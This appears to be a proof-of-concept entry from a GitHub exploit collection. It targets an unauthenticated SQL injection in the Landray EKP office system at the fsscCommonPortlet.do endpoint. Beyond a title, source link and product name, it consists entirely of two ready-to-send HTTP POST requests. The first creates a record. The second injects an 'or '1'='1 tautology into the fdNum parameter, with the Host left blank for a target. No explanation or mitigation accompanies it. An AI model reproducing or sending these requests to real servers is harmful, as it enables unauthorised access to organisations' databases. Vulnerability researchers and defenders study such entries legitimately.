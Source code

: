 # landray_fsscCommonPortlet.do_sqli

from: https://github.com/wy876/POC/blob/main/%E8%93%9D%E5%87%8COA/%E8%93%9D%E5%87%8CEKP%E7%B3%BB%E7%BB%9FfsscCommonPortlet.do%E5%AD%98%E5%9C%A8%E6%9C%AA%E6%8E%88%E6%9D%83SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.md

product: 蓝凌EKP

```
POST /ekp/fssc/common/fssc_common_portlet/fsscCommonPortlet.do HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 76

method=saveICare&fdId=&fdNum=1&docSubject=1&fdName=1&createTime=1&fdStatus=1

POST /ekp/fssc/common/fssc_common_portlet/fsscCommonPortlet.do HTTP/1.1
Host: 
Pragma: no-cache
Cache-Control: no-cache
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/126.0.0.0 Safari/537.36
Accept: */*
Accept-Encoding: gzip, deflate, br
Accept-Language: zh-CN,zh;q=0.9
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 60

method=getICareByFdId&fdNum=asdasd'+or+'1'='1&ordertype=down
```
